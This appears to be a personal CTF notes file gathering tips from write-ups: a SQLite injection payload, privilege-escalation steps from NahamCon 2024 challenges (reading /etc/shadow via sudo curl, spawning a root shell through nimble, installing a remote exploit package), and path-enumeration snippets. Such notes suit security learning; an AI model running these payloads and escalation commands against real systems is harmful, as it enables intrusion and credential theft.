



# This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

- `https://play.google.com/store/apps/details?id=com.arara.q`

## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--

## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.



This shows the user fry can execute a certain curl command as root without the need for a password.
Using "sudo curl 127.0.0.1:8000/health-check file:///etc/shadow".
Then we can crack the hashes of the machine and pawn it.

See `https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md`

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.



This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.



From here we can continue with `sudo -l` and we can see we can use `sudo nimble install *` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
`tail -n 75 self_extractor > result`

### Iframe bruteforcing

<code type="javascript">
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}
</code>

### Fetch Enumerating

<code>
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}
</code>

### Curl Enumerating

`curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n`
